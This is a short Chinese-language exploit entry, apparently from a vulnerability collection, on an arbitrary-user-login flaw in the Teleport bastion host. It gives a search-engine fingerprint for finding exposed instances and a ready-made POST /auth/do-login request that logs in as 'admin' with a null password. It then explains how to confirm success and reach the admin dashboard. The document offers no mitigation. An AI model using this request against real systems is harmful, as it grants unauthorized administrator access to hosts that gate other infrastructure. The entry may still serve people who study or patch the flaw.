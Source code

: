 # Teleport堡垒机 do-login 任意用户登录漏洞

## 漏洞描述

Teleport堡垒机存在任意用户登录漏洞，攻击者通过构造特殊的请求包可以登录堡垒机获取其他系统权限

## 漏洞影响

<a-checkbox checked>Teleport Version <= 20220817</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TELEPORT堡垒机"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1660720653270-fcd22c8e-0df1-42ea-aa02-2c94e0770e76-20220823130937164.png)

验证POC， captcha参数为验证码

```php
POST /auth/do-login

args={"type":2,"username":"admin","password":null,"captcha":"ykex","oath":"","remember":false}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1661087828041-1bf5d666-f5fd-4d69-9099-465b3dd492f2-20220823130936374.png)

code 返回 0 即为成功，再访问 /dashboard 获取管理员权限

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1661087872154-ba6ae117-5a99-43f4-919f-1b22f403ab37-20220823130936385.png)